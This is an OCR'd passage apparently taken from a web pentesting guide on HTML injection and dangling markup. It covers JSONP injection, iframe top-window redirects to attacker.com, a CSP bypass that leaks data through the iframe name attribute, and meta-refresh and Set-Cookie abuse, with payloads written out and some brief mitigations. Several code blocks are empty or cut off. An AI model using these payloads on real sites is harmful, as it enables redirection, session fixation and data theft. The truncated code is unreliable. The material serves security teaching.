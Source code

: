 ```
<script src='/editor/sharing.js'>:              ← Legitimate script
  function set_sharing(public) {
    if (public) request.access_mode = AM_PUBLIC;
      else request.access_mode = AM_PRIVATE;
    ...
  }

<script src='/search?q=a&call=set_sharing'>:    ← Injected JSONP call
  set_sharing({ ... })
```
```
Or you can even try to execute some javascript:

```html

```
```
### Iframe abuse

A child document possesses the capability to view and modify the `location` property of its parent, even in cross-origin situations. This allows the embedding of a script within an **iframe** that can redirect the client to an arbitrary page:

```html
<html>
  
  <body>
    <script>
      top.window.location = "https://attacker.com/hacked.html"
    </script>
  </body>
</html>
```
```
This can be mitigated with something like: `sandbox=' allow-scripts allow-top-navigation'`

An iframe can also be abused to leak sensitive information from a different page **using the iframe name attribute**. This is because you can create an iframe that iframes itself abusing the HTML injection that makes the **sensitive info appear inside the iframe name attribute** and then access that name from the initial iframe and leak it.

```html
<script>
  function cspBypass(win) {
    win[0].location = "about:blank"
    setTimeout(() => alert(win[0].name), 500)
  }
</script>

<iframe
  src="//subdomain1.portswigger-labs.net/bypassing-csp-with-dangling-iframes/target.php?email=%22>
```
```
For more info check [[https://portswigger.net/research/bypassing-csp-with-dangling-iframes|https://portswigger.net/research/bypassing-csp-with-dangling-iframes]]

### \<meta abuse

You could use **`meta http-equiv`** to perform **several actions** like setting a Cookie: `<meta http-equiv="Set-Cookie" Content="SESSID=1">` or performing a redirect (in 5s in this case): `<meta name="language" content="5;http://attacker.svg" HTTP-EQUIV="refresh" />`

This can be **avoided** with a **CSP** regarding **http-equiv** ( `Content-Security-Policy: default-src 'self';`, or `Content-Security-Policy: http-equiv 'self';`)

```